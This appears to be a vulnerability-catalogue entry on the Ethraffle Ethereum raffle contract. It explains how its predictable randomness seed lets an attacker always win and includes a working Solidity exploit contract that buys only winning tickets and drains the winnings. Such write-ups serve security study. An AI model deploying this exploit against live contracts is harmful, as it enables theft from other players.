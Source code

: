 Ethraffle
======
https://etherscan.io/address/0x0248f089a622b74cebaa62573605af9a44966bf1#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` and `gasPrice` as the seed. These can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            msg.sender,
            remainingGas,
            gasPrice
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, the seed of randomness, `block.coinbase`, `remainingGas` and `gasPrice`, can be accessed before the transaction, so the attacker can exploit this vulnerability to always win in the game.

Exploit
------
    contract Exploit{

        Ethraffle target;
    
        uint constant totalTickets = 6;
    
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }

        function attack(uint256 _amount) public payable{
    
            uint current_sold = target.nextTicket();
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, this, msg.gas, tx.gasprice);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
            
                if(winningNumber == totalTickets){          //if we will win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
        
        }
    }

    contract Ethraffle
    {
        function buyTickets() payable public;
        uint public nextTicket;
    }

